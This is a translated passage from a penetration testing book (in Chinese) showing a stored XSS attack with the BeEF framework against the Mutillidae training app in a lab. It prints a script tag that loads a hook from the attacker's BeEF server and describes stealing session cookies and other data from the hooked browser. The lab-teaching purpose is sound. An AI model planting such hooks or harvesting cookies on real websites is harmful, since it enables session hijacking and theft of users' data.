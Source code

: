  *在钩住受害者后，BeEF 能够评估浏览器和操作系统组合的固有漏洞。基于这些发现，BeEF 提供了一系列可以启动的命令模块，比如截图、抓取凭证或过滤 cookie，甚至触发嘟嘟声。钩住的系统只能在联机时访问。然而，一旦上钩，BeEF 可以跟踪系统何时建立 internet 连接以继续针对该系统启动命令。很滑，很吓人！

为了实际展示这一点并帮助理解存储 XSS 攻击的威力，我们将使用 BeEF hook 脚本并将客户端指向 Kali 机器的 BeEF 实例。以下屏幕截图显示了我们的测试场景，其中配置了以下内容：

*   **攻击者的机器**：Kali VM 正在运行一个 BeEF 服务器，监听所有接口（172.16.30.128 是外部 IP 地址）
*   **Web 服务器/应用**：OWASP BWA VM，特别是 Multillidae Web 应用
*   **客户端**：运行 Internet Explorer 10 的 Windows 7 虚拟机（评估副本）

攻击者可以从 Kali/BeEF 控制头端远程执行命令模块，同时被钩住的受害者继续使用互联网，通常不会注意到危害。在以下截图中所示的实际攻击或黑盒攻击中，黑客通常会部署云或 Kali 或类似机器的临时实例，并将其伪装成多层混淆（VPN、TOR、代理等）充当攻击机器，使目标服务器上的归属或检测更加困难。不管攻击机器的位置如何，在存储的 XSS 中，易受攻击的服务器将继续帮助我们钩住猎物。

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_03-1.png)

我们的存储 XSS 场景与 BeEF

我们可以首先从 GUI 应用菜单**`Favorites`**栏启动 BeEF XSS，或者通过导航到 BeEF 目录（`cd /usr/share/beef-xss`，然后使用`./beef`运行`beef`脚本，从 CLI 启动 BeEF XSS。当它启动时，**`Terminal`**会话将向我们显示用户界面的通用 URL（`UI URL`为红色）和我们想要用来钩住猎物的脚本（`Hook`为蓝色），如下所示：

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_04-1.png)

BeEF 的启动过程告诉我们如何管理实例以及如何连接浏览器。

BeEF 将自动启动浏览器会话，您可以使用*BeEF*的用户名和密码登录。当它第一次启动时，在线和离线浏览器列表将为空。我们将打开一个新选项卡，以访问攻击者的身份访问*Mutillidae Web 应用*，在该应用中，我们可以在可怜的受害者肯定会看到的字段中输入我们的钩子脚本（**`OWASP 2013`****`A3 - Cross Site Scripting (XSS)`****`Persistent (Second Order)`****`Add to your blog`**），如图所示：

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_05-1.png)

Mutillidae 提供了一些可用于存储 XS 的模拟表单。

我们将看到一个博客条目表单，在该表单中，我们可以放下我们的钩子脚本（`<script src="http://172.16.30.128:3000/hook.js"></script>`，然后单击**`Save Blog Entry`**按钮（如以下截图所示）：

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_06.png)

在 web 应用的博客功能上植入我们的钩子脚本。

好吧，让我们换个帽子，打开我们可怜的、毫无戒心的运行 IE 10 的 Windows 7 虚拟机！在 windows 虚拟机上，我们将以观察者的身份访问博客�� 这里没什么疯狂的。只需遵循**`OWASP 2013`****`A3 - Cross Site Scripting (XSS)`****`Persistent (Second Order)`****`View someone's blog`**的路径，如下图所示，我们希望看到所有用户的输入。该页面将向我们显示所有条目，包括匿名用户包含脚本的输入。我们知道博客页面是易受攻击的，因为我们在[第 5 章](Mastering%20Kali%20Linux%20for%20Web%20Penetration%20Testing_split_000.html#)、*使用 OWASP ZAP 和 BurpSuite*进行代理操作时发现了它，测试结果表明它可能具有 XSS 脚本漏洞（如下图所示）。在这里，我们知道服务器在从后续受害者的响应中重复这些条目之前，没有验证这些条目的内容。

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_07.png)

从受害者站点浏览到受影响的博客。

一旦我们导航到 blog 视图（如下图所示），我们将看到一个空白区域，匿名用户显然没有输入任何内容。在这一点上，他们没有理由相信自己被黑客攻击或受到恶意 XSS 攻击。

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_08-1.png)

所有这些浪费了的潜力（隐藏在脚本中）都存在于一个非常棒的博客中。

我们的卡利盒子知道其他情况；查看我们的 BeEF XSS 框架的控制 UI，我们可以看到运行 IE 10 的 Windows 7 框已经签入并正在报到。因为浏览器在宣布它们可以支持什么和不能支持什么方面非常有帮助，BeEF 非常了解我们可以对我们刚刚上钩的受害者实施什么样的黑客和技巧，在下面的屏幕截图中，我们看到我搜索了与*cookie*相关的命令，从中选择了**`Get Cookie`****`Module Tree`**的**`Browser`**部分**`Hooked Domain`**部分，并运行它以获取在受害者浏览器和 Mutillidae web 服务器之间使用的会话 cookie。除了证明存在 XSS 漏洞之外，我们还可以使用其他有用的攻击，这些攻击可以帮助我们获取社交媒体登录状态、已安装的软件、浏览历史记录，以及其他任何可以帮助我们更好地进行攻击的攻击重新划分目标环境。

